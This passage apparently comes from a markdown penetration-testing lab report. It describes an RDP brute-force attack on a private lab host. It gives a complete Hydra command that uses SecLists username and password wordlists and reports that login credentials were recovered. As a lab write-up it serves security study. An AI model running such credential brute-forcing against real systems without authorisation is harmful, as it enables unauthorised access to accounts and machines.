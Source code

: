 ## 5.4 RDP Brute-Force Attack Using Hydra

Based on the scanned `192.168.3.0/24` subnet, a **brute-force attack** was performed using **Hydra** and **wordlists from the SecLists package** to attempt logging into the victim machine via RDP.

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt 
-P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -t 2 -V -f -u
rdp://192.168.3.10
```

The attempt was **successful**, and **valid login credentials were obtained**  
(**Figure 5**).

![Figure 5 — Terminal output showing successful RDP password cracking with Hydra](./images/hydra_rdp_bruteforce_success.png)

**Figure 5 — Terminal output showing successful RDP password cracking with Hydra**
